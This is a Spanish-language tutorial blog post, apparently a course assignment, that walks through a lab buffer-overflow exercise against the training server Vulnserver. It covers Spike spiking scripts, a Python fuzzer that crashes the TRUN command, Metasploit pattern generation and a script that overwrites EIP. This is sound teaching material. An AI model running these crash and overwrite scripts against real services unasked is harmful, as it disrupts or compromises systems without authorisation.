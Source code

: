 ```yaml
---
title: Buffer Overflow - Tarea 3
date: 2024-11-04 00:19:00 -05:00
categories: [Buffer Overflows Exploitation Techniques]
tags: [Cybersecurity Ethical Hacking]  # TAG names should always be lowercase
---
```


## **Desbordamiento de Búfer** ##

*Proceso de Spiking*
*El spiking es un método que se utiliza para identificar partes vulnerables en un programa. El objetivo es enviar grandes cantidades de datos a un comando específico y ver si se produce un desbordamiento del búfer, lo que resultaría en un fallo o un bloqueo del programa. Si el programa falla, se identifica esa parte como vulnerable. Si no, se pasa al siguiente comando.*

*En este caso, el servidor vulnerable escucha en el puerto 9999, y los comandos válidos se pueden ver escribiendo HELP una vez conectado al servidor usando Netcat. Entre los comandos listados, el comando TRUN será el foco, ya que es vulnerable a un desbordamiento de búfer.*

```bash
$ nc IP_del_servidor_Windows 9999
```

![cd](/assets/images/tarea1.png)

*servicio corriendo*

*Se debe guardar cada script con un nombre descriptivo, como stats.spk o trun.spk. Luego, se ejecuta Generic Send TCP con los parámetros adecuados para enviar los datos.*

```bash
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```bash
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
![cd](/assets/images/tarea3.png)

*Se debe guardar cada script con un nombre descriptivo, como stats.spk o trun.spk. Luego, se ejecuta Generic Send TCP con los parámetros adecuados para enviar los datos.
generic_send_tcp 10.0.2.15 9999 trun.spk 0 0*

```bash
Fuzzing Variable 0:68
Variablesize= 1024
Fuzzing Variable 0:69
Variablesize= 1023
Fuzzing Variable 0:70
Variablesize= 512
```
**Generic --> STATS**
```bash
generic_send_tcp 192.168.18.11 9999 lspiking_stats.spk 0 0
```
![cd](/assets/images/tarea4.png)

**Si el programa es vulnerable, el vulnserver se detendrá.**

![cd](/assets/images/tarea5.png)

**Generic --> TRUN**
```bash
generic_send_tcp 192.168.18.11 9999 lspiking_trun.spk 0 0
```

## **FUZING** ##

*Desarrollo del Fuzzing*
Para realizar el fuzzing, se ha construido un script en Python. El objetivo de este script es enviar grandes cantidades de datos al comando TRUN para identificar en qué punto se produce un fallo en el servidor.

```bash
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100
ip_address = '192.168.0.12'

while True:
    try:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip_address,9999))
        s.send(('TRUN /.:/' + buffer).encode(`utf-8`))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crash en %s bytes " % str(len(buffer)) )
        sys.exit()
```
![cd](/assets/images/tarea6.png)

**Ejecución del Script**
Una vez guardado el script en un archivo (por ejemplo, fuzzing.py), se le deben otorgar permisos de ejecución con el siguiente comando en Kali Linux:

```bash
chmod +x fuzzing.py
```

```bash
./fuzzing.py
```

![cd](/assets/images/tarea7.png)

## **Encontrando el Offset** ##

**Creación del Patrón**
Primero, se debe generar un patrón cíclico de aproximadamente 3000 bytes, ya que en el fuzzing previo se identificó que el servidor vulnerable colapsaba con buffers de alrededor de 2700 bytes. Para esto, ejecutamos el siguiente comando en la terminal de Kali Linux:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```
![cd](/assets/images/tarea8.png)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2800
```
![cd](/assets/images/tarea9.png)


## **Sobrescribiendo el EIP** ##

Modificación del Script

Primero, es necesario modificar el script que se utilizó previamente para encontrar el offset. En este caso, se reemplaza el código que se utilizó para calcular el offset con un payload que contenga los datos para sobrescribir el EIP. El proceso consiste en lo siguiente:

Abrir el script anterior en un editor de texto, como gedit.
Eliminar la variable de offset utilizada previamente, ya que ahora se procederá a enviar datos controlados directamente para sobrescribir el EIP.
En lugar del offset, se utilizará un código que envía 2003 bytes de “A” seguidos de 4 bytes de “B”. Esto se hace para verificar que el EIP se sobrescribe correctamente con los valores deseados. En términos de bytes, las “A” representan el valor 0x41 y las “B” el valor 0x42.

```bash
import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4  # caracter "A" 2003 veces seguido de 4 caracters "B"
ip_address = '192.168.0.12'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```
![cd](/assets/images/tarea10.png)

```bash
./finding-offset.py
ls -lh finding-offset.py 
chmod +x finding-offset.py
 ls -lh finding-offset.py
 ```
![cd](/assets/images/tarea11.png)